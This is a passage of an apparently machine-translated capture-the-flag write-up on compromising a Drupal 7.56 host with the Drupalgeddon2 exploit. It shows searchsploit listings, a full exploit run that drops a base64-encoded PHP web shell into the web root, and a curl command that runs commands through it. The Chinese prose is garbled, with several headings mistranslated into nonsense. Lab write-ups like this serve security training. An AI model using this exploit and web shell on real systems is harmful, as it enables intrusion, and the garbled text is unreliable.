     Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execu | php/webapps/44448.py
    Drupal < 8.5.11 / < 8.6.10 - RESTful Web Services unserialize() Remote | php/remote/46510.rb
    Drupal < 8.6.10 / < 8.5.11 - REST Module Remote Code Execution         | php/webapps/46452.txt
    Drupal < 8.6.9 - REST Module Remote Code Execution                     | php/webapps/46459.py
    ...[snip]...
    ----------------------------------------------------------------------- ---------------------------------
    Shellcodes: No Results
    

这里显然有很多。德鲁帕尔格登2号和3号看起来都像候选人。

## 壳牌 饰 阿帕奇

### RCE - 德鲁帕尔格登2

鉴于漏洞利用的数量以及质量可能遍布地图的事实，我去了Google，找到了[这个存储库](https://github.com/dreadlocked/Drupalgeddon2)。我将看看它在超越根中到底在做什么，但存储库本身效果很好。运行它时会出现一个提示：`searchsploit`

    oxdf@parrot$ /opt/Drupalgeddon2/drupalgeddon2.rb http://10.10.10.233
    [*] --==[::#Drupalggedon2::]==--
    --------------------------------------------------------------------------------
    [i] Target : http://10.10.10.233/
    --------------------------------------------------------------------------------
    [+] Found  : http://10.10.10.233/CHANGELOG.txt    (HTTP Response: 200)
    [+] Drupal!: v7.56
    --------------------------------------------------------------------------------
    [*] Testing: Form   (user/password)
    [+] Result : Form valid
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
    [*] Testing: Clean URLs
    [!] Result : Clean URLs disabled (HTTP Response: 404)
    [i] Isn't an issue for Drupal v7.x
    --------------------------------------------------------------------------------
    [*] Testing: Code Execution   (Method: name)
    [i] Payload: echo SNQOQAOF
    [+] Result : SNQOQAOF
    [+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
    --------------------------------------------------------------------------------
    [*] Testing: Existing file   (http://10.10.10.233/shell.php)
    [!] Response: HTTP 200 // Size: 6.   ***Something could already be there?***
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
    [*] Testing: Writing To Web Root   (./)
    [i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
    [+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
    [+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
    --------------------------------------------------------------------------------
    [i] Fake PHP shell:   curl 'http://10.10.10.233/shell.php' -d 'c=hostname'
    armageddon.htb>> 
    